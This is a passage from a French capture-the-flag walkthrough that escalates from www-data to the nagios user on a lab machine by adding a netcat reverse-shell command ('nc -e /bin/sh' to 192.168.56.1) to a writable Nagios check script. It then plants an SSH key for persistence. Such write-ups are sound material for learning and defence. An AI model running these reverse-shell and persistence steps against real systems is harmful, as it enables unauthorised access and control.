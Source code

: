 ```sql
1 row in set (0.001 sec)
```

Mon idée était de modifier l'entrée `command_line` pour obtenir une exécution de code mais les modifications n'ont eu aucun effet.

Le fait que le CGI ne soit pas linké à une librairie pour mysql m'a mis sur la bonne piste :

```shellsession
www-data@midwest:/usr/local/nagios$ file ./sbin/config.cgi
./sbin/config.cgi: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=266c583d1d0293fc51ac8afdbc7050e9bcb9f59f, stripped
www-data@midwest:/usr/local/nagios$ ldd ./sbin/config.cgi
        linux-vdso.so.1 (0x00007ffe5379f000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fef0f44f000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fef0f66b000)
```

La configuration de *Nagios* ici doit se reposer sur des fichiers et effectivement je retrouve la commande ping définie dans `/usr/local/nagios/etc/commands.cfg` :

```bash
define command {
    command_name    check_ping
    command_line    $USER1$/check_ping -H $HOSTADDRESS$ -w $ARG1$ -c $ARG2$ -p 5
}
```

Le programme mentionné se trouve à `/usr/local/nagios/libexec/check_ping` et il s'agit d'un binaire ELF.

J'ai essayé de modifier le fichier `cfg` mais il semble que la modification ne soit pas rechargée et je ne dispose pas de droits suffisants pour envoyer un signal au process `Nagios`.

Toutefois dans les services il y en a un nommé `Memory Usage` faisant appel à la `Command` `check_local_mem` qui correspond à l'entrée suivante :

```bash
define command {
    command_name    check_local_mem
    command_line    $USER1$/custom_check_mem -w $ARG1$ -c $ARG2$ -n
}
```

Il s'agit d'un script bash et on a bien un accès écriture :

```shellsession
www-data@midwest:/usr/local/nagios$ file libexec/custom_check_mem
libexec/custom_check_mem: Bourne-Again shell script, ASCII text executable
www-data@midwest:/usr/local/nagios$ ls -al libexec/custom_check_mem
-rwxrwxr-x 1 www-data nagios 3435 Jan 22  2021 libexec/custom_check_mem
```

Je le modifie pour ajouter la commande `nohup nc -e /bin/sh 192.168.56.1 7777&` et j'attend que mon shell vienne et que ma volonté soit faite (envoie sa soeur !) :

```bash
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.106.
Ncat: Connection from 192.168.56.106:51380.
id
uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
cd /home/nagios
mkdir .ssh
cd .ssh
echo ssh-rsa AAAA--- snip ma clé publique SSH snip ---cT7R== > authorized_keys
exit
```